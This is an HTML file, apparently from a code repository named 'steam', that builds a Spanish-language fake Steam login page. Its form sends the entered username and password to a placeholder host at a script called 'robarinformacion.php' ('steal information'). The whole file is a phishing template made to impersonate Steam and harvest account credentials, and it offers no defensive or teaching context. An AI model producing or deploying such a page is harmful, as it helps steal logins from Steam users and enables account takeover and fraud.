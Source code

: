 # steam
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Inicio de Sesión de Steam</title>
</head>
<body>
<h2>Iniciar Sesión en Steam</h2>
<form action="http://tusitio.com/robarinformacion.php" method="POST">
  <label for="username">Nombre de Usuario:</label><br>
  <input type="text" id="username" name="username"><br>
  <label for="password">Contraseña:</label><br>
  <input type="password" id="password" name="password"><br><br>
  <input type="submit" value="Iniciar Sesión">
</form>
</body>
</html>
